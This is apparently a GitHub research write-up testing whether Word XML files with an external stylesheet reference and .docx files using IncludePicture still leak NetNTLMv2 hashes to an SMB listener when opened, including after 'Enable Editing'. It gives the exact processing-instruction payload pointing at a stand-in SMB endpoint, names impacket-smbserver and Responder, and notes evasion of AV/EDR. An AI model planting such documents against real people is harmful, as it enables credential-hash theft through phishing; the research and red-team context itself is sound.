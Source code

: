 # NetNTLMv2-and-Office-Docs-Research

Was talking with some friends on discord, and the conversation started with a couple links and seeing whether some combo of these 2 would still work in 2023: https://blog.didierstevens.com/2017/11/13/webdav-traffic-to-malicious-sites/ and https://bohops.com/2018/08/04/capturing-netntlm-hashes-with-office-dot-xml-documents/. 

It turns out that it does! Creating a Word .XML file (in a similar way as the BoHops link above, `File -> Save As -> Word XML document (*.xml)`) still causes NetNTLMv2 hashes to be leaked upon opening the document, as long as you have the processing instruction `<?mso-application progid="Word.Document"?>` at the top to force the host to associate the file as a Word doc, and the "path" Word should expect to open the style sheet from within the `href` tag in the stylesheet processing instruction `<?xml-stylesheet type="text/xsl" href="\\ENDPOINT\HERE\word.xsl"?>`. 

Once the document is opened, no further interaction is needed, the document will automatically try to load the style sheet referenced in the href tag within the xml-stylesheet processing instruction at the top of your Word XML file, which in this case is an SMB endpoint set up using impacket-smbserver (Re-ran all the tests with Responder and hashes were picked up there as well). Sending the document via email (so it would gain MOTW), opening the document and hitting "Enable Editing..." button, hashes also successfully hit my smb endpoint.

![image](https://user-images.githubusercontent.com/75406207/230168107-15551eec-b135-4418-9fa6-1800401f0a8f.png)

Going a step further, we wanted to see whether it was possible to replicate some of this with .docx files, but if you've ever pulled apart a .docx file, it is a huge ~~mess~~ collection of xml files. This led me deep into the depths of documentation for OpenXML while simultaneously pulling .docx xml files apart, creating new documents with different styles/features/etc. to see whether I'd be able to get a word document zipped back up into it's original form and still open with the suspect `<xml-stylesheet>` call. 

With the .docx internals being a bit (read: a LOT) more finnicky when trying to inject the same payload idea into a couple of the xml files and "re-compile" them for lack of a better term, I went back to the drawing board to look into already established/"tried and true" methods of manipulating/poisoning office documents, and stumbled across this on HackTricks <https://book.hacktricks.xyz/generic-methodologies-and-resources/phishing-methodology/phishing-documents#external-image-load>, which I had seen before, but not paid a whole lot of attention to.

Using that IncludePicture method and just populating the URL field with my smb endpoint, I was able get the same behavior as the .XML file tested previously, which was that the NetNTLMv2 hashes are successfully leaked upon opening the document. Then, I sent the same document via email (so it would gain MOTW), opened it and hit the "Enable Editing..." button, and a hash leaked successfully again. Nothing seemed to flag from an AV/EDR standpoint, 

![image](https://user-images.githubusercontent.com/75406207/230168191-1379ddaa-f07f-49de-a488-0931e6c8d577.png)

The tiny, highlighted box under "Test" in the document in the screenshot below is the "image" generated by using the IncludePicture function, shrunk considerably but large enough where it can still be seen when highlighting. 

Given this was a conversation started this morning, I haven't had the time to sit down and figure out how to expand and continue down this rabbit hole, but at a base level seems ripe for assumed breach/internal tests. Configuring .docx files with IncludePicture using the SMB share path is trivial and can easily be abused, however I have a feeling this is going to be more of an "intended functionality."  

I'll also note that the SMB "paths" configured were IPs, not FQDNs. If this ends up being a widely used attack vector and Microsoft attempts to resolve these vulnerabilities with an approach similar to how they "fixed" PrintNightmare, Follina, and most recently CVE-2023-23397, I'd expect this vector to be viable/bypasses to the patch(es) to be found quickly. 

This was really interesting to dig into initially, and I am planning to investigate more as time/life allows. I'm sure these attack vectors have been looked into in the past/this isn't anything new, but I enjoy learning something new and tinkering with stuff, so thought someone else might like to read about it as well. 
